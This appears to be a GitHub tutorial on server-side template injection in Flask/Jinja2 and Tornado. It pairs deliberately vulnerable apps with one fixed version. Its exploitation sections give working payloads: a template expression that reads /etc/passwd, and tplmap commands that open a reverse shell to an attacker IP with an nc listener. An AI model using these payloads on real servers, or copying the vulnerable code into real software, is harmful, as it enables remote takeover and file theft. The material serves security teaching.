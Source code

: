 # SSTI-Basics
Basic overview of SSTI to RCE

Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.


Vulnerable Code (Flask & Jinja2) Example 1

```
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')    
    output = Jinja2.from_string('Hello ' + name + '!').render()  // The name variable is concatenating to the template string

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
    
// URL: http://127.0.0.1:8080/page?name=
// Replace IP & Port for your environment

```
Secure Code (Flask)

```

from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')   
    output = Jinja2.from_string('Hello {{name}}!').render(name = name)  // The name variable gets passed to the template context and processed server-side

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
    
// URL: http://127.0.0.1:8080/page?name=   
// Replace IP & Port for your environment    
```
SSTI Exploitation

SSTI Vulnerability Test

```
curl -g http://127.0.0.1:8080/page?name={{5*5}}
Output: Hello 25

```
SSTI /etc/passwd Test

```
curl -g "http://127.0.0.1:8080/page?name={{+''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()+}}"

```

SSTI Reverse Shell

Expliot for Reverse Shell
```
python tplmap.py -u http://127.0.0.1:8080/page?name= --reverse-shell <attacker_ip> <attacker_port>
Example: python tplmap.py -u http://127.0.0.1:8080/page?name= --reverse-shell 10.10.10.10 1337
```
Capture Reverse Shell

```
nc -lvnp 1337

```
Vulnerable Code (Flask & Jinja2) Example 2

Create new file called vuln.py
```
from flask import Flask, request, render_template_string
from jinja2 import Template

app = Flask(__name__)
app.config.from_pyfile('config.py')

@app.route("/",  methods=['GET'])
def get_username():
    return render_template_string(
        """
        <form action="/hello">
            <label for="username">Enter username:</label><br>
            <input type="text" size="50" name="username" ><br>
            <input type="submit" value="Submit">
        </form> 
        """
    )

@app.route("/hello",  methods=['GET', 'POST'])
def say_hello():
    username = request.args.get('username')
    template = Template(
        """
        <h2> Hello <i style='color: royalblue;'> \
            {{ username }} </i>! Nice to meet you </h2>
        """
    )
    source = template.render(username=username)
    a = render_template_string(source)
    return a

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9999)
```

Create config file called config.py
```
import os
VERY_SECRET = os.environ.get('VERY_SECRET')
```
Test Vulnerability
```
http://127.0.0.1:9999/hello?username={{5*5}}
```
Exfiltrate the /etc/passwd file
```
http://127.0.0.1:9999/hello?username={{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```
Get Reverse Shell
```
python tplmap.py -u http://127.0.0.1:9999/hello?username= --reverse-shell 10.10.10.10 1337
```

Vulnerable Code (Tornado) Example 1

Create new file called server.py
```
import tornado.template
import tornado.ioloop
import tornado.web
TEMPLATE = '''
<html>
 <head><title> Hello {{ name }} </title></head>
 <body> Hello FOO </body>
</html>
'''
class MainHandler(tornado.web.RequestHandler):
 
    def get(self):
        name = self.get_argument('name', '')
        template_data = TEMPLATE.replace("FOO",name)
        t = tornado.template.Template(template_data)
        self.write(t.generate(name=name))
 
application = tornado.web.Application([
    (r"/", MainHandler),
], debug=True, static_path=None, template_path=None)
 
if __name__ == '__main__':
    application.listen(9999)
    tornado.ioloop.IOLoop.instance().start()
```
Access the web application
```
http://127.0.0.1:9999/?name=tarzan
```
Test for vulnerability
```
http://127.0.0.1:9999/?name={{2*2}}
```
Get Reverse Shell
```
python tplmap.py -u http://127.0.0.1:9999/?name= --reverse-shell 10.10.10.10 1337
```
